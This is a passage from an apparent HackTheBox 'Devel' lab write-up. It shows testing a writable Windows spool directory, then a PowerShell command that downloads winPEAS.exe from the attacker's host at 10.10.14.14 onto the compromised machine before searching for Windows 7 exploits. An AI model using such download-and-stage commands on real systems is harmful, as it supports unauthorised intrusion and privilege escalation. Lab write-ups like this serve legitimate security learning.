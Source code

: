 {% highlight bash %}
C:\> cd \windows\system32\spool\drivers\color
C:\Windows\System32\spool\drivers\color>echo amirr0r > test
echo amirr0r > test
C:\Windows\System32\spool\drivers\color>type test
type test
amirr0r
{% endhighlight %}

Native wget in powershell:

{% highlight powershell %}
c:> powershell -command "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.14:8000/winPEAS.exe', 'c:\Windows\System32\spool\drivers\color\winPEAS.exe')"
{% endhighlight %}

![alternative to wget](/assets/img/htb/machines/windows/easy/devel/wget.png)

#### Looking for exploits

Unfortunately, I didn't get any output after executing `winPEAS.exe` so I directly looked for exploits on **Microsoft Windows 7**:

![google search exploits windows 7](/assets/img/htb/machines/windows/easy/devel/google-search-windows-7.png)
